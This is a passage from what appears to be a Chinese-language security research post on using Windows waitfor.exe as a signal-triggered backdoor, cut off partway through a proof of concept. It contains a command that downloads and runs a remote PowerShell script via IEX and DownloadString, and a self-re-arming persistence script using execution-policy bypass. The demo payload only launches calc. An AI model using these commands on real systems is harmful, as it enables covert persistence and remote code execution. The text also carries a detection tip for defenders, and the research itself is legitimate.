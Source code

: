 此外，他还提到了一个有趣的技巧：如果将powershell代码设置为延期执行，那么接收信号后，后台将不存在进程waitfor.exe

我验证了这个结论，方法如下：

**开启等待模式：**

cmd：

```
waitfor test1 && && powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/3gstudent/test/master/calc2.ps1') 
```

**发送信号：**

cmd：

```
waitfor /s 127.0.0.1 /si test1 
```

https://raw.githubusercontent.com/3gstudent/test/master/calc2.ps1的内容如下：

```
Start-Sleep -Seconds 10;
start-process calc.exe; 
```

当成功接收信号后，进程waitfor.exe退出

接着执行powershell脚本，等待10秒再启动calc.exe

这10秒内，只存在进程powershell.exe

也就是说，如果把等待时间设置更长，那么再这一段等待时间内不存在进程waitfor.exe，提醒防御者注意这个细节

### poc细节

如果作为一个后门，那么上面的利用方法还不够成熟

因为触发一次后，进程waitfor.exe将退出，导致该后门无法重复使用

需要再次开启一个等待模式，才能再次触发后门

当然，可以在每次后门触发后手动开启一个等待模式

但这不够智能，能否通过脚本实现自动开启等待模式，使其成为一个可持续触发的后门呢？

为此，我写了以下POC

#### 思路1：

在目标系统保存一个ps脚本1.ps1

1.ps1内容如下：

```
start-process calc.exe
cmd /c waitfor persist `&`& powershell -executionpolicy bypass -file c:\test\1.ps1 
```

**注：**
